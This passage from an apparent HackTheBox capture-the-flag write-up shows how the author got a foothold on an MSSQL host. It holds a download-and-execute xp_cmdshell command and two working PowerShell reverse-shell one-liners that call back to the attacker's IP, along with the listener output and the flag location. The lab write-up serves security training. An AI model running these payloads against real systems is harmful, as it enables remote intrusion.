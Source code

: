 1. `ufw allow from 10.10.15.158 proto tcp to any port 80,4444` to ensure that the ports we are going to be using will not be impeded by the Unix firewall (alternative: you can just type `ufw status`. Mine was disabled.)

2. Open a new tab or terminal window and open the directory in which your payload has been saved and open an HTTP server using `python -m SimpleHTTPServer 80` or `pythonn3 -m http.server 80`

3. Open another terminal window/tab and start a netcat listener on the chosen port we included in our payload script (see my example below) using `ncat -lvnp -p 4444`.

4. Excute the following command to both upload and execute the Powershell payload: `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.158/shell.ps1\");"`

## The Payloaad
The walkthrough provided the following script to insert into th `shell.ps1` payload:

```Powershell
$client=New-ObjectSystem.Net.Sockets.TCPClient("10.10.14.3",443);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length))-ne0){;$data=(New-Object-TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex$data2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I obtained some help on the [HackTheBox](http://www.hackthebox.eu) discord channel and got the udpatede code:

```Powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.15.158",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Admittedly, I am not at all knowledgable about Powershell so I updated the IP address and port and, lo and behold, I go to my netcat listener:

```Bash
listening on [any] 4444 ...
connect to [10.10.15.158] from (UNKNOWN) [10.10.10.27] 49696

# 
```

We have a simple shell! From there, I navigated to the user `sql_svc` at `C:\Users\sql_svc\Desktop` and found the `user.txt` flag.

### Goals
1. User Own [x]
2. System Own [ ]

Navigating with a simple shell is annoying in a Linux system. However, it is an even bigger pain to get back to acheiving the foothold again if you lose the connection. However, I did find a means to acheive a full prompt from [this article](https://stuffjasondoes.com/2018/07/18/bind-shells-and-reverse-shells-with-netcat/). 
